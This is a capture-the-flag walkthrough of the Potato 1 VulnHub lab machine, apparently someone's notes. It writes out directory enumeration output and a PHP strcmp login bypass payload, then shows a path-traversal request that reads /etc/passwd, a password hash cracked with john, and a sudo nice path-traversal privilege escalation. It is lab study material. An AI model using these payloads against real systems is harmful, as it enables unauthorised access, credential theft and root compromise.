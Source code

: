 ## Potato 1

https://www.infosecarticles.com/potato-1-vulnhub-walkthrough/

### www-data

Enumerating directories.
```
/admin                (Status: 301) [Size: 314] [--> http://192.168.1.146/admin/]
/index.php            (Status: 200) [Size: 245]
/potato               (Status: 301) [Size: 315] [--> http://192.168.1.146/potato/]
```

Inside /admin/
```
/index.php            (Status: 200) [Size: 466]
/logs                 (Status: 301) [Size: 319] [--> http://192.168.1.146/admin/logs/]
/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
```

Inside /logs/
```
# log_01.txt
Operation: password change
Date: January 03, 2020 / 11:25 a.m.
User: admin
Status: OK

# log_02.txt
Operation: reboot the server
Date: January 09, 2020 / 9:55 a.m.
User: admin
Status: OK 

# log_03.txt
Operation: password change
Date: August 2, 2020 / 9:25 p.m. 
User: admin
Status: OK
```

FTP port at 2121 has some files, including index.php that has this code:
```php
if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0)
```

We can bypass this authentication with the technique shown in this [article](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) using array to strcmp return "Null" and as the operator uses only two equals, so it will return True when comparing "Null" with "0".
```
username=admin&password[]=root
```

LFI at log functionality.
```
POST /admin/dashboard.php?page=log
...
...
file=../../../../../etc/passwd
```

In /etc/passwd we get this:
```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

Cracking it we find 'dragon'.
```
john webadminHash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Privilege Escalation
```
sudo -l
(ALL : ALL) /bin/nice /notes/*
```

We can use path traversal to execute our files.
```
sudo /bin/nice /notes/../home/webadmin/bash.sh
```
